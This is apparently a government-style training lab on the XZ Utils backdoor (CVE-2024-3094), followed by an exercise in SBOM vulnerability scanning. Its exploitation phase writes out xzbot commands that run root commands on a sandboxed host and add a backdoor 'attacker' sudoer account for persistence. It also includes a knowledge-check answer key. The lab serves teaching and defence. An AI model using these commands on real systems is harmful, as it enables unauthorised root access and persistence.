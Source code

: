 # XZ Utils - A Case Study on Supply Chain Trust

This lab draws on the XZ Utils supply chain compromise referenced in this <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA alert</a> from April of 2024. The XZ Utils case study represents an incident where a supply chain trust issue led to the inclusion of a backdoor vulnerability in the XZ Utils open source software package. What's most interesting is how the vulnerability was introduced and how it was discovered (almost completely by accident). Had the vulnerability not been discovered, any system that patched its OpenSSH service with the vulnerable version of XZ Utils could have been compromised. The lab will cover the backstory to this incident and walk you through an example vulnerability test and exploitation of the backdoor.

One of the ways personnel can review software packages and libraries for vulnerabilities before installation is through the use of Software Bills of Materials (SBOMs). Additional guidance on the use and generation of SBOMs can be viewed at <a href="https://www.cisa.gov/sbom" target="_blank">CISA's SBOM information page<a>.

Further information and recommendations on using secure software can be found in the <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">Securing the Software Supply Chain Guide</a>

 - This lab is expected to take 30 minutes

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab to receive your completion certificate.

## Learning Objectives

 - Understand the XZ Utils backdoor vulnerability
 - Perform exploitation of the XZ Utils backdoor vulnerability
 - Understand Software Bill of Materials
 - Analyze SBOM details for vulnerability information

## Learner Expectations

 - Learners should be comfortable with command-line operations and Secure Shell connections

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by analyzing and removing vulnerabilities and area 4 (Cyber Supply Chain Risk Management) by validating open source software before use.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Software Security Assessment, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1624</a>: Conduct vulnerability analysis of software patches and updates
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1690</a>: Identify exploitable technical or operational vulnerabilities


<!-- cut -->

# Scenario

The lab begins by walking through the timeline and backstory of the XZ Utils case study. Then you will perform hands-on penetration testing and exploitation of the vulnerability in a sandbox environment.

The lab environment consists of three systems:
 - A Kali Linux system that will serve as the "attacker"
 - An unaffected or safe system
 - A vulnerable system that includes the XZ Utils vulnerability
 
You will test each system to identify which is vulnerable based on interactions with the OpenSSH service and then demonstrate an exploit of the vulnerability. The lab will also review the concept of Software Bill of Materials (SBOM). Then the lab will demonstrate how tools like Grype and Trivy can identify vulnerable libraries before using them in software.

![network-diagram.png](./img/network-diagram.png)

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Unaffected System | Ubuntu |user | tartans|
| Vulnerable System | Ubuntu |user | tartans|
| Kali | Kali Linux | user | tartans |

<!-- cut -->

## XZ Utils - Case Study Details 

The following section will outline, in detail, the events that led to the inclusion and discovery of the XZ Utils vulnerability. If you are already familiar with the story, you may skip ahead to Phase 1 of the lab. This initial section exploring the XZ Utils backdoor vulnerability is a 5-minute read.

<details> 
<summary> 
<h3>XZ Utils Vulnerability Backstory</h3> 
</summary> 
<p> 

#### What is XZ Utils? 

From XZ Util's own project page, "XZ Utils provide a general-purpose data-compression library plus command-line tools" `[1]`. Compared to other compression libraries and tools, such as gzip, XZ Utils can provide up to 30% more compression, albeit at the mild expense of longer compression times `[1,2]`. 

XZ Utils and the former LZMA2 Utils libraries are often part of other services that require data compression. One of which is the OpenSSH service that provides remote command-line access to systems and is often used by administrators. Estimates are that up to 70% of SSH servers are running some form or version of OpenSSH `[3]`. Keep this statistic in mind as we review the case. 

#### An Exercise of Social Engineering and Extreme Patience 

One of the most remarkable aspects of this case is the way the actor was able to gain the XZ Utils project maintainer's trust. Here is a rough timeline of the over 2 years of events that took place leading up to the inclusion of the vulnerability`[3]`: 

 - **October, 2021 - February, 2022**: User Jia Tin sends patches to the current XZ Utils maintainer, Lasse Colin, who integrates Tin's patches into a commit in February, 2022. 
 - **April, 2022 - June, 2022**: Several sockpuppet accounts (accounts that had no previous history or Internet presence up to this point and may have been operated by Tin) begin messaging Colin complaining of slow update times and pressuring him to appoint a second maintainer; a role that Tin has poised themselves to take with their previous patch submissions. 
 - **July, 2022 - December, 2022**: Lasse makes Tin an organization member of the XZ Utils GitHub project, adding him to email lists, and granting more access than Tin had previously. 
 - **January, 2023 - January, 2024**: Jia Tin takes over more and more responsibility for the project's maintenance, becomes a full-fledged maintainer and makes a few innocuous changes to the code that will serve the attack to come. 
 - **February, 2024**: Tin merges hidden backdoor binary code into the test input files included in the XZ Utils v5.6.0 unstable release. By the end of the month, errors are reported, and this likely led Jia Tin to accelerate the timeline of their plans. Some of the suggested "fixes" to the errors would prevent the backdoor in the future by unlinking the liblzma library from the libsystemd daemon - one that is necessary for the backdoor to work. 
 - **March, 2024**: Jia Tin releases XZ Utils v5.6.1, reporting to have fixed the previous errors, but this is a deception. The update includes a new backdoor in the test files that is less noisy to avoid detection. Tin hopes that the proposed solution of unlinking the libzma libraries will no longer be seen as necessary. 
 - **March 28, 2024**: Andres Freund discovers the bug and reports his findings to Debian who proactively rolls back XZ Utils v5.6.1 to v5.4.5. Meanwhile, other Linux distributions, such as Arch Linux and RedHat, announce the backdoor and advise users to downgrade the XZ Utils package if they have one of the vulnerable versions (5.6.0 or 5.6.1). 

#### Clever Concealment 

Part of the reason that the backdoor went relatively unnoticed to others was because the backdoor was added within the test files included with the 5.6.0 and 5.6.1 releases. Tin's own comments state, “This directory contains bunch of files to test handling of .xz, .lzma (LZMA_Alone), and .lz (lzip) files in decoder implementations. Many of the files have been created by hand with a hex editor, thus there is no better ‘source code’ than the files themselves,” `[3]`. The hope was that these test files would not be scrutinized to the same degree as the actual source code files. In addition, the malicious test files were only included in the tarball download files, and not directly on the GitHub project files list, further obfuscating their existence. Upon decompression of the package during the build process, the backdoor was added to the XZ Utils and liblmza libraries. 

An infographic created by Thomas Roccia is included below: 

![xz-infographic.jpg](./img/xz-infographic.jpg) 

*https://x.com/fr0gger_/status/1774342248437813525/photo/1* 

#### Discovery 

The backdoor's discovery by Andres Freund was unintentional in nature. Andres, a Postgres developer for Microsoft, discovered that creation of SSH logins were generating several Valgrind errors and that connections took slightly longer than usual using more CPU than normal. Valgrind is a tool used to detect memory management bugs in Linux programs, and Andres was so used to his systems that he noticed the fractionally longer login times for his SSH logins to connect. The Valgrind output seemed to point to liblzma and to xz utils in large. He then discovered the obfuscated code that is run by the liblzma and XZ Utils process during his SSH login session `[4]`. 

Additionally, in the case where the OpenSSH service is run by the systemd daemon at boot, the OpenSSH service is run in the context of the root user, which in Linux, is tantamount to the highest privileged user on the system. Anyone who would exploit this backdoor would then also be granted root-level access to the underlying system. 

After being reported the vulnerability was immediately given a severity score of 10, the highest a vulnerability can have, and the designation of <a href="https://nvd.nist.gov/vuln/detail/cve-2024-3094" target="_blank">CVE-2024-3094</a>. 

#### Lessons Learned 

Luckily, there are a handful of mitigating factors that prevented this backdoor vulnerability from becoming a larger issue. 

 - 1: The backdoor was caught relatively early, and many had likely not updated or upgraded their current version of XZ Utils to one of the compromised versions. Unless operators were hyper-diligent about updating their packages, the pool of vulnerable systems would have been small at first. However, remember that up to 70% of systems with an SSH login service use a version of OpenSSH, so the potential for harm was great on a long enough timescale. 
 - 2: The backdoor relied on a specific public/private key pair to connect. This means that only the holder of the required private key would have been able to leverage the backdoor. At the time of discovery, the likelihood that the actor, Jai Ti, was going to personally target systems of interest would have been very low. However, it would have been possible for this actor to sell or offer this private key to those who would see the backdoor used for malicious intent. 
 - 3: Due to the possibly rushed execution of the attack to avoid detection, the implementation of the backdoor tended to be buggy and may not have worked on every system that leveraged XZ Utils and the liblzma libraries. Andres alludes to crashes caused by the backdoor in version 5.6.0, meaning that those who did not update to v5.6.1 had a lower chance of being exploited in the wild. 

So, what did we learn from this incident? Should we trust open source software? Overall, we likely can, as the entire purpose of open source is for the community to review and vet software to find and correct errors, bugs, and vulnerabilities. While this backdoor vulnerability had the potential to cause massive harm, it was caught relatively quickly thanks to the diligence of the larger IT and cybersecurity communities. However, this example demonstrates how the implied trust behind well-known and well-used open source software could be used for malicious purposes. 

</p> 
</details> 

## Phase 1: Test and Exploit the XZ Utils Vulnerability 

In this phase of the lab, you will test for the presence of the vulnerability, just as the discoverer did, and then perform the exploitation of the XZ Utils vulnerability. 

<details>
<summary>
<h3>Test for the Presence of the XZ Utils Vulnerability</h3>
</summary>
<p>

First, we'll walk through how to know if a system could be affected by the backdoor. We are looking for four key items:

 - The system is using `OpenSSH` for its SSH service
 - OpenSSH includes the `liblzma` library as a dependency
 - OpenSSH is `executed by systemd` at startup
 - The version of XZ Utils is either `5.6.0` or `5.6.1`

1. Open the `Unaffected-System` console and login with the credentials `user|tartans`.

2. (**Unaffected-System**) To check whether the system is running SSH, and more specifically OpenSSH, run the following command:

```
sshd -V
```

![s08-image1.png](./img/s08-image1.png)

We can see from the output that our system is indeed using OpenSSH.

3. (**Unaffected-System**) To check whether OpenSSH includes liblzma as a library dependency, run the following command:

```
ldd $(which sshd)
```

![s08-image2.png](./img/s08-image2.png)

The output lists all the shared library dependencies and objects for the service in question. The output also clearly shows that OpenSSH is dependent on the liblzma library.

4. (**Unaffected-System**) To check whether OpenSSH is executed by systemd at startup, run the following commands in succession:

```
ps -eo pid,ppid,cmd | grep [s]shd
ps -eo pid,ppid,cmd | head
ls -l /sbin/init
```

![s08-image3.png](./img/s08-image3.png)

All of the relevant output will fit onto the screen. The first output prints the process id, parent process id, and command name for any running process that includes the name "sshd". We can see from this output that the parent process id for the sshd service is `1`. The second output simply lists the same information for the first 10 entries of the process list, allowing us to see that process 1 corresponds to `/sbin/init`. The third and final output highlights that /sbin/init is symlinked (another way of saying shortcut) to `/lib/systemd/systemd`. Since systemd is responsible for managing services at startup, this tells us that the sshd service is started at boot by the systemd account.

Therefore, we have proven that the first three criteria pass:

 - The system is using `OpenSSH` for its SSH service &#x2705;
 - OpenSSH includes the `liblzma` library as a dependency &#x2705;
 - OpenSSH is `executed by systemd` at startup &#x2705;

5. (**Unaffected-System**) Lastly, to tell which version of XZ Utils is currently installed, run the following command:

```
xz --version
```

![s08-image4.png](./img/s08-image4.png)

We can see from the output that this system is not using one of the vulnerable xz-util version. Therefore, the final criteria for being a candidate for the backdoor is not true.

 - The version of XZ Utils is either `5.6.0` or `5.6.1` &#x274E;

6. Open the `Vulnerable-System` console and login with the credentials `user|tartans`.

7. (**Vulnerable-System**) Repeat steps 2-5 above for this system. Everything should be more less the same until you check the version of xz.

![s08-image5.png](./img/s08-image5.png)

This time we see that the system is using version 5.6.1, which is one of the vulnerable versions of XZ Utils.

8. (**Vulnerable-System**) Additionally, we can verify that the liblzma shared object that OpenSSH is using is the vulnerable version by running the following command:

```
ls -l /usr/local/lib/liblzma.so.5
```

When you ran the `ldd $(which sshd)` command you would have noticed that OpenSSH is still pointing to the liblzma.so.5 shared object, but the above output shows that this is symlinked to the vulnerable shared object of liblzma (liblzma.so.5.6.1).

![s08-image7.png](./img/s08-image7.png)

In the next section, you will exploit the vulnerable system and test the effects.

</p>
</details>

<details>
<summary>
<h3>Exploit the XZ Utils Vulnerability</h3>
</summary>
<p>

In this section you will perform the exploitation of the XZ Utils backdoor using a proof-of-concept tool named <a href="https://github.com/amlweems/xzbot?tab=readme-ov-file#backdoor-demo" target="_blank">xzbot</a>, which was created by GitHub user `amlweems`.

1. Open the `Kali-XZ` console and login with the credentials `user|tartans`, if not already logged in.

2. (**Kali-XZ**) Open Firefox and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

3. (**Kali-XZ, Firefox**) Download the `xzbot` standalone executable file to the default Downloads directory.

![s08-files.png](./img/s08-files.png)

The vulnerable server has been preconfigured with a private key that matches the public key used by the xzbot executable. Recall that in the published backdoor the private key of the attacker was unknown, so the keys in the lab were replaced using a pre-generated key pair that will allow us to perform the exploit.

4. (**Kali-XZ, Terminal**) Open a Terminal and change directories, set the executable flag for xzbot and then view the help options with the following commands:

```
cd /home/user/Downloads/
chmod +x xzbot
./xzbot -h
```

![s08-image8.png](./img/s08-image8.png)

Based on the help options, we need to supply the SSH server IP and port, a command, and a seed value. For the lab we can ignore the seed value option as the default seed value of 0 was already used to generate the new key pair. This leaves just the IP, port, and command to run.

5. (**Kali-XZ, Terminal**) Exploit the OpenSSH server with the following command, where the `id` command will output the context in which the command was executed to the file `/home/user/id` on the vulnerable system:

```
./xzbot -addr 10.5.5.250:22 -cmd "id > /home/user/id"
```

You should see the following output.

![s08-image9.png](./img/s08-image9.png)

Even though the output says the SSH handshake failed, we can verify that the command was run by looking on the vulnerable system.

6. (**Vulnerable-System**) Switch to the **Vulnerable-System** console and view the contents of the `id` file you just created with the following command:

```
cat /home/user/id
```

![s08-image10.png](./img/s08-image10.png)

The output shows that when we ran `id` through the xzbot backdoor connection, we were running as the root user. So, what could we do with this level of access as a malicious actor?

7. (**Kali-XZ, Terminal**) Return to the **Kali-XZ** console and run the following commands in succession:

```
./xzbot -addr 10.5.5.250:22 -cmd "useradd -m -s /bin/bash attacker"
./xzbot -addr 10.5.5.250:22 -cmd "echo 'attacker:tartans' | chpasswd"
./xzbot -addr 10.5.5.250:22 -cmd "gpasswd -a attacker sudo"
```

These commands will appear to run silently to you, but they will perform consequential tasks on the target system.

 - The first command creates a new user named `attacker`, creates a home directory for it, and then sets the user's default shell to bash
 - The second command sets the `attacker` password to `tartans`
 - The third command adds the `attacker` user to the sudoers group

8. (**Kali-XZ, Terminal**) Login to the vulnerable system using the account you just created and a password of "tartans" (enter "yes" when asked if you are sure you want to connect):

```
ssh attacker@10.5.5.250
```

9. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) To validate that you are indeed a sudoer for the system, run the following command with the sudo password of `tartans` and the view the contents of the flag file in the root directory:

```
sudo cat /root/token
```

**Knowledge Check Question 1:** *What is the token string found in the root directory once the vulnerable system has been successfully exploited?*

Note that this directory was protected against the standard 'user' account initially so that you could not view it until you had a sudoer account at your disposal.

10. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) Once you have the token file contents you may end the SSH session to the Vulnerable-System with the following command:

```
exit
```


You have just circumvented the standard protections for this system by creating a new privileged user account by using the backdoor in liblzma. Now that an account is created, an attacker could go about making further changes to lock out other users, erase logs to cover their tracks, and set up persistence or pivot to other systems.

#### Grading Check

(**Kali-XZ, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the Kali system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

![s08-image13.png](./img/s08-image13.png)

Grading Check 1: Successfully added the attacker user to the vulnerable system and added the attacker to the sudoers group.
 - New user `attacker` was added to the Vulnerable-System
 - The `attacker` user is part of the sudoers group

`Copy the token or flag strings to the corresponding question submission field to receive credit.`

### Optional Validation

1. (**Kali-XZ, Terminal**) In order to view SSH connections times and replicate what the researcher observed, you can run the following command against the Vulnerable-System:

```
(time sshpass -p 'tartans' ssh -o StrictHostKeyChecking=no user@10.5.5.250 "pidstat -C sshd 1 3") 2>&1 | grep real
```

2. (**Unaffected-System**) For the Unaffected-System you will first have to run `ip addr` locally to determine the system's IP address.

![s08-image11.png](./img/s08-image11.png)

3. (**Kali-XZ, Terminal**) Then use this IP address in the same command as above, replacing the `.250` with the correct final octet of the Unaffected-System's Ip address.

You should notice, even on repeated tests, that the Vulnerable-System always connects more slowly than the Unaffected-System.

![s08-image12.png](./img/s08-image12.png)

It's quite impressive that the researcher was able to notice this small difference simply by "feel", which caused him to dig deeper and led to the discovery of the backdoor.

</p>
</details>

## Phase 2: Reviewing SBOMs for Vulnerable Packages

<details>
<summary>
<h3>Investigate the XZ Utils Package</h3>
</summary>
<p>

For this phase of the lab you will be generating and reviewing a few sample SBOMs, including one taken from the vulnerable systems.

| &#128270; Software Bill of Materials (SBOM) |
|---|
|_As stated previously, SBOMs are Software Bills of Materials. SBOMs list the various libraries or even applications for a given project, package, or file. SBOMS can even be created from the contents of a system's filesystem. SBOMs are useful for creating an inventory of the various software libraries that are included in a package or project, or the various libraries and programs in a certain directory, compressed package, or other file. SBOM data can also be used to scan for known vulnerabilities attached to the specific versions of libraries, applications, or programs within the SBOM inventory list. These results can be valuable when evaluating open source software and allows personnel to correct vulnerable items before the software is used._ |

| &#128736; Syft |
|---|
|_Syft is an open source command-line interface tool used for creating SBOMs. Syft was used in this lab due to its simplicity. Syft gathers information about a target and performs additional metadata gathering when run online._ |

| &#128736; Grype |
|---|
|_Grype is an open source command-line interface tool used to scan SBOM's for known vulnerabilities. Grype leverages a vulnerability database but can be run offline as long as the database was stored locally._ |

1. (**Kali-XZ**) Open Firefox (if not already open) and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

2. (**Kali-XZ, Firefox** Download the following files:
 - juiceshop-sbom.json: A CylconeDX formatted SBOM created from the OWASP Juice Shop site (retrieved from <a href="https://github.com/CycloneDX" target="_blank">CylconeDX</a>)
 - xz.json: An SPDX formatted SBOM based on the Vulnerable-System's xz-5.6.1 package
 - xz-5.6.1.tar.gz: The original XZ-Utils tarball including the vulnerable version of XZ Utils

![s08-files.png](./img/s08-files.png)

3. (**Kali-XZ, Terminal**) Change working directories to the Downloads directory with the following commands:

```
cd /home/user/Downloads
```

4. (**Kali-XZ, Terminal**) First, you will create an SBOM of the XZ Utils tarball using `Syft` with the following command (you can ignore any warnings about not being able to fetch the latest version, as the tool is running offline):

```
syft -o spdx xz-5.6.1.tar.gz > my-xz.json
```

![s08-image16.png](./img/s08-image16.png)

Syft can view the contents of the tarball file and gather the list of libraries and packages within. The `-o` option allows you to specify the output format; SPDX in this case.

5. (**Kali-XZ, Terminal**) You can view the contents of the SBOM with `cat my-xz.json` or by viewing it directly within the OS GUI with a text editor, such as VS Code or VIM.

An important item of note is that when Syft runs in an offline fashion it might not be able to grab all the associated metadata with certain library and package files.

6. (**Kali-XZ, Terminal**) Compare the SBOM that you created with the SBOM that was pre-generated for you with the following command:

```
diff -y my-xz.json xz.json
```

![s08-image17.png](./img/s08-image17.png)

As you scroll through the differences, you'll see that there are some sections and additional information available in the xz.json SBOM that was taken while Syft was online.

Let's check the pre-generated SBOM for any vulnerabilities flagged in the xz-5.6.1.tar.gz package using Grype.

7. (**Kali-XZ, Terminal**) Review the SBOM for any vulnerabilities associated with known CVE's with the following command (Grype will also complain about not being able to check for updates due to being run offline, but this is normal):

```
grype xz.json
```

![s08-image18.png](./img/s08-image18.png)

You'll see that Grype flags the vulnerable version of XZ Utils right away, as well as lists the exact CVE and the version in which the CVE was fixed or resolved.

**Knowledge Check Question 2:** *What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?*

Using tools like Grype to review packages before installation is critical to vulnerability management, but it also allows you to resolve the vulnerable package with a known safe version. Review of SBOM's and packages is paramount to maintaining security and reducing risk when using open source packages.

</p>
</details>

<details>
<summary>
<h3>Reviewing More Complex SBOMs with Trivy</h3>
</summary>
<p>

In this final section of the lab, you will review a more involved SBOM based on the OWASP vulnerable Juice Shop site, which is used for practicing penetration testing techniques. The site is intentionally rife with vulnerabilities, so Trivy should find many potential issues with the package.

| &#128736; Trivy |
|---|
|_Trivy is another open source command-line interface tool for performing security scanning of SBOMs. Trivy produces vulnerability information, including CVE numbers, in a table format that is easy to read and can even filter the results by severity._|

0. (**Kali-XZ, Terminal**) Because of the way Trivy runs in this offline sandboxed environment, it cannot perform automatic database updates. The trivy.db file includes metadata that compares the current date to the date on which the .db file was pulled. 

In order to trick Trivy into not running the database checks, the system clock was modified at the start of the lab to set the date back to when the database was last updated (May 6th, 2025). Check the system clock and make sure this is still the case.

If you need to set the date back yourself, you can enter the following command:

```
sudo date -s "Tue May 6 02:30:00 PM EDT 2025"
```

Since this is the last step we are performing, the date change should not affect the local system.

**Note: If at any time Trivy behaves as if it cannot read from its local database again, you can replace the cached files with the following commands:**

```
cp /home/user/metadata.json /home/user/.cache/trivy/db/
cp /home/user/trivy.db /home/user/.cache/trivy/db/
```

1. (**Kali-XZ, Terminal**) Review the Trivy output for the Juice Shop SBOM with the following command:

```
trivy sbom juiceshop-sbom.json
```

The `sbom` flag tells Trivy that we are reviewing an SBOM file, which is the `juiceshop-sbom.json` file.

The output will display a table of the libraries that have known CVE's attached and whether or not the vulnerability is still active or it has been fixed.

![s08-image15.png](./img/s08-image15.png)

2. Use the table's information and Internet research to answer the following questions.

**Knowledge Check Question 3:** *How many unique libraries (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level?*

Hint: You can add the `--severity HIGH` option to the previous Trivy command to help with Knowledge Check Question 3.

**Knowledge Check Question 4:** *How many 'CRITICAL' severity CVE's are still affected in the Juice Shop package based on the SBOM and Trivy output?*

Hint: You can add the `--severity CRITICAL` option to the previous Trivy command to help with Knowledge Check Question 4.

You have now used multiple tools to gather vulnerability information from SBOMs made from various packages and libraries. There is no single tool to rule them all when it comes to SBOM review. While Grype flagged the XZ Utils vulnerability, Trivy does not in this instance. It is important to leverage multiple tools, whenever possible, to ensure you have the full picture when reviewing SBOM details.

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

By completing this lab, you were able to review and demonstrate an exploit against the XZ Utils backdoor vulnerability. In addition, you learned about SBOMs and how they can be used to review open source software for potential vulnerabilities before use.

To recap:
 - You reviewed and compared a pair of systems to determine which was vulnerable to the XZ Utils backdoor vulnerability
 - You exploited the XZ Utils backdoor vulnerability and performed follow-on actions to gain persistent sudoer access as a new user
 - You created an SBOM from the vulnerable XZ Utils source code package
 - You analyzed the output of security and vulnerability scanning tools against SBOMs to determine specific vulnerability information

Skills exercised:
 - S0504: Skill in identifying vulnerabilities
 - S0543: Skill in scanning for vulnerabilities
 - S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: What is the token string found in the root directory once the vulnerable system has been successfully exploited?
 - *This answer is randomized for each lab instance*
 
**Knowledge Check Question 2**: What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?
 - *CVE-2024-47611*

![kc2.png](./img/kc2.png)  
  
**Knowledge Check Question 3**: How many unique _libraries_ (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level based on the Juice Shop SBOM?
 - *16*

![kc3.png](./img/kc3.png)
  
**Knowledge Check Question 4**: How many 'CRITICAL' severity _CVE's/vulnerabilities_ (not unique libraries) are ALSO still marked as _affected_ based on the Juice Shop SBOM?
 - *5*

![kc4.png](./img/kc4.png)
  
### References
 - `[1]`<a href="https://github.com/tukaani-project/xz" target="_blank">XZ Utils GitHub Project page</a>
 - `[2]` <a href="https://en.wikipedia.org/wiki/XZ_Utils" target="_blank">Wikipedia</a>
 - `[3]` <a href="https://research.swtch.com/xz-timeline" target="_blank">Timeline of the xz open source attack</a>
 - `[4]` <a href="https://www.openwall.com/lists/oss-security/2024/03/29/4" target="_blank">Andres Freund's Report to Openwall</a>
 - <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA Alert on XZ Utils</a>
 - <a href="https://www.cisa.gov/sbom" target="_blank">CISA SBOM information page<a>
 - <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">CISA Securing the Software Supply Chain Guide</a>
 - <a href="https://github.com/anchore/grype" target="_blank">Grype</a>
 - <a href="https://github.com/anchore/syft" target="_blank">Syft</a>
 - <a href="https://trivy.dev/latest/" target="_blank">Trivy</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>

